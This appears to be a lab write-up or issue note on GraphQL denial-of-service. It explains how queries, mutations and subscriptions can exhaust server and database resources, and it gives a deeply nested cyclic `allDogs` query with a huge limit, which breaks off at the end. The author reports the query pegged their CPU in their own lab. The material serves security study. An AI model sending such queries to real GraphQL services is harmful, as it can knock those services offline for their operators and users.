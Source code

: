 #### Issue

As the client control the amount of data requested it can send a GrapQL request to a query that cause a resource exhaustion on the storages called by the GraphQL server along the GraphQL server itself for the serialization of data to JSON.

This issue can also happen using a mutation by sending a large amount of data in the parameters (input validation can used here to prevent this attack).

This issue can also happen using a subscription by either:

* Register a large amount of subscribers and on each subscription exposed.
* Send a large amount of data in the parameters used by the subscriptions.

In my labs I have a vulnerability on this point for query, precisely in the query `allDogs(onlyFree: Boolean = false, limit: Int = 500): [Dog!]` that is available for anonymous user and retrieve the content of the DB about the Dog. As there a relation between Dogs and a Veterinary and the reverse then it's possible to perform cascading call causing resource exhaustion at SQL level on the DB.

**Example:**

When I send this request, I cause my CPU to go to 100% during several minutes and my DB is local because it's an SQLite

```javascript
query dos {
  allDogs(onlyFree: false, limit: 1000000) {
    id
    name
    veterinary {
      id
      name
      dogs {
        id
        name
        veterinary {
          id
          name
          dogs {
            id
            name
            veterinary {
              id
              name
              dogs {
                id
                name
                veterinary {
                  id
                  name
                  dogs {
                    id
                    name
                    veterinary {
                      id
                      name
                      dogs {
                        id
                        name
                      }
                    }
                  }
                }
              }
            }
          }
        }
```